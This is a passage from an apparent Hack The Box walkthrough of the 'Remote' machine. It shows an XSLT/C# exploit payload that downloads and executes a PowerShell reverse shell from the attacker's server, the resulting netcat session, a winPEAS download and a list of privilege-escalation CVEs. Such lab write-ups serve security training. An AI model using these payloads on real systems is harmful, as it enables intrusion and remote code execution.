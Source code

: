 ```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.117 -Port 6001
```

We can then start a netcat listener on our machine and change the code of the exploit to download and execute the revsh.ps1 script. To do that, we can use the PowerShell command Invoke-WebRequest \(IWR\) to download the file and then execute it using Invoke-Expression \(IEX\). The code would then look like:

```bash
{ string cmd = "IEX(IWR http://10.10.14.117:8082/revsh.ps1 -UserBasicParsing)"; \
 System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; \
 proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> \
 <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
login = "admin@htb.local;
password="baconandcheese";
host = "http://remote.htb";
```

When we execute the exploit, we get a hit on the Python web server and then our netcat listener is invoked:

```bash
┌─[oztechmuse@parrot]─[~]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.1.153] 49691
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>
```

When we run whoami /all we find that we are the IIS user \(iis apppool\defaultapppool\) and that there are no other regular users on the machine other than Administrator. If we look in c:\Users\Public, we find the user.txt file with the flag. The next thing we can do is to download and run winPEAS.exe. We can use the winPEAS.exe program that is in the winPEAS/winPEASexe/winPEAS/bin/x64/Release directory. You can download it to the c:\Users\Public\Downloads using the PowerShell

```bash
wget http://10.10.14.117:8082/winPEAS.exe -OutFile peas.exe
```

Runing this, we see that winPEAS reports, we get a number of exploitable escalation paths reported. Firstly there is a list of OS level vulnerabilities related to the specific build. We will leave those for the moment to see what other options area available.

```bash
[!] CVE-2019-0836 : VULNERABLE
 [>] https://exploit-db.com/exploits/46718
 [>] https://decoder.cloud/2019/04/29/combinig-luafv-
  postluafvpostreadwrite-race-condition-pe-with-diaghub-
  collector-exploit-from-standard-user-to-system/
 [!] CVE-2019-0841 : VULNERABLE
 [>] https://github.com/rogue-kdc/CVE-2019-0841
 [>] https://rastamouse.me/tags/cve-2019-0841/
 [!] CVE-2019-1064 : VULNERABLE
 [>] https://www.rythmstick.net/posts/cve-2019-1064/
 [!] CVE-2019-1130 : VULNERABLE
 [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear
 [!] CVE-2019-1253 : VULNERABLE
 [>] https://github.com/padovah4ck/CVE-2019-1253
 [!] CVE-2019-1315 : VULNERABLE
 [>] https://offsec.almond.consulting/windows-error-reporting-
  arbitrary-file-move-eop.html
```